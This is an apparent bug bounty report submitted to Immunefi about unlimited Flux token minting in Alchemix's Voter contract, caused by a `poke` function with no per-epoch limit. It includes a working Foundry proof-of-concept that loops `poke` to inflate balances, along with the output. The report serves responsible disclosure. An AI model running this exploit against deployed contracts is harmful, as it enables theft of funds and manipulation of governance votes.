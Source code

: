 
# Unlimited Flux minting

Submitted on Tue May 14 2024 22:01:45 GMT-0400 (Atlantic Standard Time) by @Tapir49939 for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31222

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Vulnerability Details
The attacker can mint unlimited amount of Flux tokens.

The `vote` and `reset` functions of the `Voter` contract could be called only once in an Epoch. Therefore, the amount of Flux tokens minted is limited.

```
function reset(uint256 _tokenId) public onlyNewEpoch(_tokenId) {
    if (msg.sender != admin) {
        require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, _tokenId), "not approved or owner");
    }

    lastVoted[_tokenId] = block.timestamp;
    _reset(_tokenId);
    IVotingEscrow(veALCX).abstain(_tokenId);
    IFluxToken(FLUX).accrueFlux(_tokenId);  // Accrue Flux once in an Epoch, onlyNewEpoch modifier enforces this!
}
```

However, the `poke` function lacks such limitations and `onlyNewEpoch` modifier, and could be called any number of times. Poke calls `_vote` internal functions that accrues Flux.

```
function _vote(uint256 _tokenId, address[] memory _poolVote, uint256[] memory _weights, uint256 _boost) internal {
    _reset(_tokenId);

    uint256 _poolCnt = _poolVote.length;
    uint256 _totalVoteWeight = 0;
    uint256 _totalWeight = 0;

    for (uint256 i = 0; i < _poolCnt; i++) {
        _totalVoteWeight += _weights[i];
    }

    IFluxToken(FLUX).accrueFlux(_tokenId);  // Accrue Flux unlimited number of times through poke!!!
    ...
}
```

The attack scenario is simple:
1. Vote for a pool.
1. Keep calling `poke` in a loop, Flux will be minted.

## Impact Details
Consequences are dire:
1. Flux token has a market value.
1. Flux token could be used to boost the voting power.
        
## Proof of concept
## Proof of Concept
Run the test as: `forge test --mp src/test/Boost.t.sol  --fork-url 'https://...' -vv`

```
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract Boost is BaseTest {
    function setUp() public {
        setupContracts(block.timestamp);
    }

    function testFluxUnlimitedMint() public {
        address attacker = address(456);

        uint256 tokenId = createVeAlcx(attacker, 10e18, MAXTIME, false);

        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        assertEq(flux.getUnclaimedFlux(tokenId), 0);

        hevm.prank(attacker);
        voter.vote(tokenId, pools, weights, 0);

        uint256 unclaimedBalance1 = flux.getUnclaimedFlux(tokenId);

        // Here the attacker mints Flux
        // increase/decrease loop bound to see the varing amount of Flux
        hevm.startPrank(attacker);
        for (uint i; i < 10000; i++) {
            voter.poke(tokenId);
        }
        hevm.stopPrank();

        uint256 unclaimedBalance2 = flux.getUnclaimedFlux(tokenId);

        assertGt(unclaimedBalance2, unclaimedBalance1);
        
        console.log("Flux balance = %s", unclaimedBalance2);

        hevm.startPrank(attacker);
        flux.claimFlux(tokenId, unclaimedBalance2);
    }
}
```

Output:

```
Flux balance = 98165526504584473482437      // For 10000 iterations
Flux balance = 196321237438075597852437     // For 20000 iterations
...
```